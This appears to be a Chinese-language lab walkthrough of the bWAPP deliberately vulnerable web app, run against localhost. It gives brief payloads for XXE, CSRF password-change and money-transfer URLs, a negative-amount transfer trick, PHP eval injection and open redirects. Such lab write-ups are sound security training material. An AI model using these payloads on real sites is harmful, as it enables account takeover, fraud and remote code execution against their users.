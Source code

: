 页面告诉我们要一些固定的设备才成访问，那我们抓包修改User-Agent即可

低，中等和高等都是可以绕过的
# XML External Entity Attacks (XXE)

抓包把xml代码换了即可


  

```html
  <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
    <!ENTITY test SYSTEM "http://127.0.0.1/bWAPP/666">
    ]>
    <reset><login>&test;</login><secret>Any bugs?</secret></reset>
```
# CSRF (Change Password)

让人点击url即可修改密码

http://127.0.0.1/bwapp/csrf_1.php?password_new=bug&password_conf=bug&action=change

中等和高等加多了个输入旧密码，可以弄个html页面让受害者输入进而修改密码

# CSRF (Change Secret)

生成的poc让受害者点击一下即可修改成功

中等和高等用了token来防护
# CSRF (Transfer Amount)

把金额修改成负数的时候，我们的金额会增多

也可以让受害人打开url就会扣钱

http:/127.0.0.1/bwapp/csrf_2.php?account=123-45678-90&amount=200&action=tran
# PHP Eval Function

直接在url中添加上?eval=phpinfo();
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200815190031949.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMwMzY1NTEx,size_16,color_FFFFFF,t_70#pic_center)


中等和高等也一样
# Unvalidated Redirects & Forwards (1)

抓包把url修改成任意就会跳转到
中等和高等不能随意跳转了
后面上传漏洞老熟人了
